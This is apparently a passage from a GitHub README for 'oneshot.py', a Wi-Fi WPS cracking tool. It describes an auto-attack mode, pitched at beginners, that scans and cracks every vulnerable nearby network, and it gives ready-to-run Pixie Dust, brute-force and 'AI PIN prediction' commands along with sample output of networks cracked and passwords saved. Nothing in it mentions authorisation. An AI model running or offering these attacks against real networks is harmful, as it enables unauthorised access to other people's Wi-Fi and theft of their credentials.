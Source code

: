 ### **💾 Phase 3: Results & Summary**
- **Automatic Saving**: All successful passwords saved to multiple file formats
- **Comprehensive Statistics**: Success rates, timing, and detailed summaries
- **Attack History**: Complete logs for later analysis and review

### 🎯 **Quick Start Guide**

1. **🚀 Auto Attack Mode** - Perfect for beginners  
   * Automatically scans all networks  
   * Identifies vulnerable targets  
   * Attacks each target automatically  
   * Saves all passwords
2. **📡 Manual Selection** - For targeted attacks  
   * Shows list of available networks  
   * Color-coded vulnerability indicators  
   * Select specific target  
   * Multiple attack methods available

### 💻 **Command Line Mode**

```bash
# Auto attack all vulnerable networks
python oneshot.py -i wlan0 --auto-attack

# Target specific network with Pixie Dust
python oneshot.py -i wlan0 -b AA:BB:CC:DD:EE:FF -K

# Brute force attack
python oneshot.py -i wlan0 -b AA:BB:CC:DD:EE:FF -B

# Smart AI PIN prediction (8 intelligent strategies)
python oneshot.py -i wlan0 -b AA:BB:CC:DD:EE:FF --ai-pin
```

---

## 📊 **Output & Reports**

### 📁 **Saved Files**

* **`attack_history.txt`** - Complete attack history with timestamps
* **`auto_attack_results.txt`** - Auto attack mode results
* **`reports/stored.csv`** - Structured CSV format
* **`reports/All WIFI Password And WPS Pin.txt`** - Human-readable format

### **📈 Enhanced Auto Attack Progress Tracking**

```
[3/15] 🎯 Attacking: HomeNetwork_5G
[*] 📶 BSSID: AA:BB:CC:DD:EE:FF | Signal: -45 dBm
[*] ⏱️  Timeout: 30 seconds | Remaining: 12 networks
[*] 🧚 Starting Pixie Dust attack (max 30s)...
[+] ✅ SUCCESS! Cracked HomeNetwork_5G in 12.4 seconds
[+] 🎉 Total successful: 2/3
[*] 📈 Progress: 20.0% (3/15)
[*] ⏳ Waiting 3 seconds before next attack...
```
